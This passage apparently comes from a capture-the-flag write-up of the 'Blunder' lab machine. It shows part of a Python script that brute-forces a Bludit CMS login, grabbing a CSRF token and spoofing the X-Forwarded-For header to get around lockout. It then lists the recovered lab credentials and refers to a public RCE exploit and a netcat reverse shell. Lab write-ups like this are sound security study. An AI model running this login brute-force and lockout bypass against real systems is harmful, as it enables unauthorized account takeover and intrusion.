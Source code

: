 ```python
            print("Success ! \n[+] CsrfToken : %s" % csrfToken)
        else :
            print("Error on csrfToken !")
            exit(1)


        payload = {
            'tokenCSRF':csrfToken,
            'username':username,
            'password':password,
            'save':''
        }

        header = {
            'X-Forwarded-For':password,
            'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0',
            'Referer':url
        }

        login = session.post(url, headers=header, data=payload, allow_redirects=False)
        print("Trying %s" % password)

        if 'location' in login.headers:
            print(login.headers['location'])
            if login.headers['location'].find('dashboard') != -1 :
                exit(0)

if __name__ == '__main__':
    main()
```

With this script, we obtain the following credentials
```
username : fergus
password : RolandDeschain
```

We can now connect to the admin panel :

![Admin panel]({{ "assets/Blunder/adminPanel.png" | absolute_url }} "Admin panel")

We can now exploit the previously found [RCE exploit](https://github.com/cybervaca/CVE-2019-16113﻿) like the following :

![Bludit Pwn]({{ "assets/Blunder/bluditPwn.png" | absolute_url }} "Bludit Pwn")

And with a *netcat* listening on our host :

![Netcat listening]({{ "assets/Blunder/netcat.png" | absolute_url }} "Netcat listening")

So we have a first shell as the **www-data** user.

# User access

